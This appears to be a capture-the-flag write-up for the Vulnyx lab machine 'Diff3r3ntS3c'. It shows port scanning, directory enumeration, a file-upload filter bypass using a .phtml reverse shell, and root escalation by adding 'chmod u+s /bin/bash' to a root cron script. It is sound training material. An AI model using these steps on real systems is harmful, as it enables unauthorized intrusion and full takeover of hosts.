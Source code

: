 ```yaml
---
layout: single 
title: Diff3r3ntS3c - Vulnyx
date: 2024-06-13
classes: wide
header:
  teaser: /assets/images/vulnyx-writeup-diff3r3nts3c/diff_logo.png
  teaser_home_page: true
  icon: /assets/images/vulnyx.png
categories:
  - Vulnyx
  - Low
tags:
  - Arbitrary File Upload
  - Abusing Cronjob Vulnerability
---
```


![logo](/assets/images/vulnyx-writeup-diff3r3nts3c/diff_logo.png)

## Port Scanning

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 192.168.1.111

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:B0:92:23 (VMware)
```

## Service Discovery

```bash
sudo nmap -sV -sC -vvv -p 80 192.168.1.119

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
|_http-title: HackingStation
|_http-server-header: Apache/2.4.57 (Debian)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
MAC Address: 00:0C:29:B0:92:23 (VMware)
```

## Method 1

We only have port 80 open. If we look at the webpage, we get the following information:
![form](/assets/images/vulnyx-writeup-diff3r3nts3c/form.png)

Since we have a form, let's try to exploit an arbitrary file upload vulnerability.

If we try to upload a .php file, we get the following error:

![error](/assets/images/vulnyx-writeup-diff3r3nts3c/error.png)

After trying several extensions, we get the correct one -> *.phtml*

To see where the uploaded file is located, we perform a scan with gobuster:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.111/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.111/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://192.168.1.111/images/]
/uploads              (Status: 301) [Size: 316] [--> http://192.168.1.111/uploads/]
/assets               (Status: 301) [Size: 315] [--> http://192.168.1.111/assets/]
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
```

We can see that we have a directory called /uploads where the files we upload will be stored.

If we check this directory, we can see that the file with a reverse shell that we uploaded is there. If we execute it, we get a reverse shell.

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.110] from (UNKNOWN) [192.168.1.111] 58210
Linux Diff3r3ntS3c 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64 GNU/Linux
 21:09:56 up 10 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(candidate) gid=1000(candidate) groups=1000(candidate)
/bin/sh: 0: can't access tty; job control turned off
```

Once we have the reverse shell, we try to escalate privileges. To do this, we check if there is any suspicious task running with crontab

```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
* * * * * root /bin/sh /home/candidate/.scripts/makeBackup.sh
```

As we can see in the result, we have a script that we can execute as root in the .scripts directory of our user.

We can modify this script to get a root shell with the following line `chmod u+s /bin/bash`

We wait for the task to run again and then execute the command `bash -p` to get the root shell:

```bash
bash-5.2# whoami
root
```
